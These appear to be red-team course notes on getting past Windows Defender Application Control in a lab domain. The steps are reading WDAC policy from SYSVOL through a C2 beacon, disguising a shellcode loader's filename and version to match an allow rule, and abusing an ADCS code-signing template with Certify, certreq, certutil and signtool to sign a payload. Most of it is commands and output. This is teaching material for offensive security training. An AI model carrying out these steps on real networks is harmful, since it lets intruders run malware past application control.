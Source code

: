 
WDAC is a Windows technology designed to control which applications and drivers are allowed to run on a machine.  It sounds a lot like AppLocker, but with a few key differences.  The most significant of which is that Microsoft recognises WDAC as an [official security boundary](https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria), which means that it's substantially more robust and applicable bypasses are actually fixed (and a CVE often issued to the finder).

The term "WDAC bypass" is used herein, but this is disingenuous since we're never actually bypassing WDAC at a fundamental level.  Instead, we must find weaknesses in the policy deployed by an organization.

WDAC policies can generally be read from the machine they are applied to. This can be found on the domain controller, within the `Policies` folder on it's SMB service.

```
 beacon> ls \\acme.corp\SYSVOL\acme.corp\Policies\{9C02E6CB-854E-4DEF-86AB-3647AE89309F}\Machine\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 549b     fil     04/05/2023 10:41:45   comment.cmtx
 432b     fil     04/05/2023 10:41:45   Registry.pol

beacon> download \\acme.corp\SYSVOL\acme.corp\Policies\{9C02E6CB-854E-4DEF-86AB-3647AE89309F}\Machine\Registry.pol
[*] download of Registry.pol is complete
```

We can extract this file and parse the policy file to determine what WDAC rules are in place.

```

PS C:\Users\Attacker\Desktop> Parse-PolFile .\Registry.pol

KeyName     : SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
ValueName   : DeployConfigCIPolicy
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
ValueName   : ConfigCIPolicyFilePath
ValueType   : REG_SZ
ValueLength : 100
ValueData   : \\acme.corp\SYSVOL\acme.corp\scripts\CIPolicy.p7b
```

These policies files are generally in a world-readable location, meaning we can simply extract it from the SMB service with any beacon we control on the domain.

```
beacon> download \\acme.corp\SYSVOL\acme.corp\scripts\CIPolicy.p7b
[*] download of CIPolicy.p7b is complete
```

We'll then utilize the `CIPolicyParser` to convert it to a readable file.

```
PS C:\Users\Attacker\Desktop> ipmo C:\Tools\CIPolicyParser.ps1
PS C:\Users\Attacker\Desktop> ConvertTo-CIPolicy -BinaryFilePath .\CIPolicy.p7b -XmlFilePath CIPolicy.xml

    Directory: C:\Users\Attacker\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04/05/2023     15:37          15046 CIPolicy.xml
```

WDAC allows for very granular control when it comes to trusting an application.  The most commonly used rules include:

- Hash - allows binaries to run based on their hash values.
- FileName - allows binaries to run based on their original filename.
- FilePath - allows binaries to run from specific file path locations.
- Publisher - allows binaries to run that are signed by a particular CA.

# File Name Bypass

As we can see, an example rule may be set up to allow files under a specific name prefix and application version value to run as executables on a machine with WDAC enabled.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/142/fed/a3c/file-rule-2.png)

The only exception to this is ensuring that our executables fall under the executable name, along with the file version. These are both values that can be modified in Visual Studio.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/959/058/ff2/build.png)

![](https://files.cdn.thinkific.com/file_uploads/584845/images/f14/078/012/file-version.png)

Once compiled, our shellcode loader will inherit the application name and version values, despite them being needless for the loader to actually run.

# Trusted Signing Bypass

In some cases, we may be able to bypass WDAC by utilizing a completely benign method. Generally, there may be times where an ADCS endpoint employs binary signing, so that binaries that are signed can bypass WDAC automatically. We can use this to our advantage, and sign a binary with said trusted installer so that in bypasses WDAC without any other coverage.

We can see the `TBS` entry on the certificate is located below, which is short for "ToBeSigned". This means that we'll need to obtain the actual certificate that trusted binaries are generated with, then request that certificate to be granted to our binary.

To progress with this, we'll need to determine if a certificate signing template exists on the CA, and we'll also need to be within the group for its enrollment rights. We can find this with both Certify or Certipy. Remember that this all needs to be done within a computer that is domain-joined or that we control within the domain.

```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /ca:sub-ca.acme.corp\sub-ca
```

![](https://files.cdn.thinkific.com/file_uploads/584845/images/4aa/012/b12/certify-find.png)

We'll then create a `.inf` file with the following content.

```
[NewRequest]
Subject = "CN=ACME Corp"

KeySpec = 1
KeyLength = 2048
Exportable = TRUE
MachineKeySet = FALSE
SMIME = False
PrivateKeyArchive = FALSE
UserProtected = FALSE
UseExistingKeySet = FALSE
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
ProviderType = 12
RequestType = PKCS10
KeyUsage = 0xa0
HashAlgorithm = SHA256

[RequestAttributes]
CertificateTemplate=RTOCodeSigning

[EnhancedKeyUsageExtension]
OID=1.3.6.1.5.5.7.3.3
```

Then we'll convert that binary to CSR format.

```
C:\Temp>certreq -new -config sub-ca.acme.corp\sub-ca acme.inf acme.csr
Active Directory Enrollment Policy
  {8FCFCA3D-C3D3-4C86-9205-AB1140A2DA9C}
  ldap:

CertReq: Request Created
```

Next we'll submit our `csr` file that we requested to the CA.

```
C:\Temp>certreq -submit -config sub-ca.acme.corp\sub-ca acme.csr cert.cer
RequestId: 15
RequestId: "15"
Certificate retrieved(Issued) Issued
```

We don't have a private key yet, so we'll need to install the certificate and then re-export it with the provided private key.

```
C:\Temp>certreq -accept cert.cer
Installed Certificate:
  Serial Number: 6e0000001afeb61facac1df4a700000000001a
  Subject: CN=ACME Corp
  NotBefore: 5/9/2023 4:12 PM
  NotAfter: 5/8/2024 4:12 PM
  Thumbprint: acb7fd757c71a9aac320ffecb7ba95449d73898b
```

We'll then need to find the certificates within the user's local store and get the ID of the certificate that we just imported. In our case, the only certificate that is within our user's store is the one we just generated.

```
C:\Temp>certutil -user -store My
My "Personal"
================ Certificate 0 ================
Serial Number: 6e0000001afeb61facac1df4a700000000001a
Issuer: CN=sub-ca, DC=acme, DC=corp
 NotBefore: 5/9/2023 4:12 PM
 NotAfter: 5/8/2024 4:12 PM
Subject: CN=ACME Corp
Non-root Certificate
Template: RTOCodeSigning, RTO Code Signing
Cert Hash(sha1): acb7fd757c71a9aac320ffecb7ba95449d73898b
  Key Container = d9ad848ef1b20c57fbdb2104a83a253f_9611fe18-21d3-47ec-b1ef-5c639db10ae8
  Simple container name: tq-RTOCodeSigning-4cb60e9d-8c30-4ebc-b06d-5b4b06723f0e
  Provider = Microsoft RSA SChannel Cryptographic Provider
Encryption test passed
CertUtil: -store command completed successfully.
```

We can then export it with the private key and the password.

```
C:\Temp>certutil -user -exportpfx -privatekey -p pass123 My 0 acme.pfx
My "Personal"
================ Certificate 0 ================
Serial Number: 6e0000001afeb61facac1df4a700000000001a
Issuer: CN=sub-ca, DC=acme, DC=corp
 NotBefore: 5/9/2023 4:12 PM
 NotAfter: 5/8/2024 4:12 PM
Subject: CN=ACME Corp
Non-root Certificate
Template: RTOCodeSigning, RTO Code Signing
Cert Hash(sha1): acb7fd757c71a9aac320ffecb7ba95449d73898b
  Key Container = d9ad848ef1b20c57fbdb2104a83a253f_9611fe18-21d3-47ec-b1ef-5c639db10ae8
  Simple container name: tq-RTOCodeSigning-4cb60e9d-8c30-4ebc-b06d-5b4b06723f0e
  Provider = Microsoft RSA SChannel Cryptographic Provider
Encryption test passed
CertUtil: -exportPFX command completed successfully.
```

We'll then need to download the exported PFX to our machine. The `signtool` utility can be used (which automatically comes with Windows SDK), and is best to be run from a VS Developer code prompt.

```
C:\Users\Attacker\Desktop>signtool sign /f acme.pfx /p pass123 /fd SHA256 C:\Payloads\https_x64.exe
Done Adding Additional Store
Successfully signed: C:\Payloads\https_x64.exe
```